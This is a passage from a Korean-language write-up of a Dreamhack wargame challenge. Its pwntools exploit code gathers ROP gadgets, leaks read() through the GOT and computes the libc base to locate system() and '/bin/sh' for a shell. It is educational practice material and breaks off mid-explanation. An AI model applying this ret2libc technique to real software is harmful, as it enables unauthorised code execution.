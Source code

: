 ``` python

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

```

#### 7) read_got 주소를 얻기 위한 페이로드 작성.

``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
read_offset = libc.symbols["read"]
: libc.so.6 안에 정의된 read() 함수의 오프셋(상대 주소).
: libc는 메모리에 로드될 때 base 주소가 랜덤이지만, base + offset = 실제 주소 가 성립함.
: 따라서 leak한 read 주소에서 base를 구할 수 있음:
: libc_base = leaked_read - read_offset

system_offset = libc.symbols["system"]
: libc 안의 system() 함수 오프셋. 
: system("/bin/sh") 실행을 위해 필요
: 나중에:
: system_addr = libc_base + system_offset

sh_offset = list(libc.search(b"/bin/sh"))[0]
: libc 메모리 안에서 "/bin/sh" 문자열을 찾음.
: libc.search(b"/bin/sh") → 제너레이터 반환 (주소 후보들).
: list(...)[0] → 첫 번째 /bin/sh 문자열의 오프셋.
```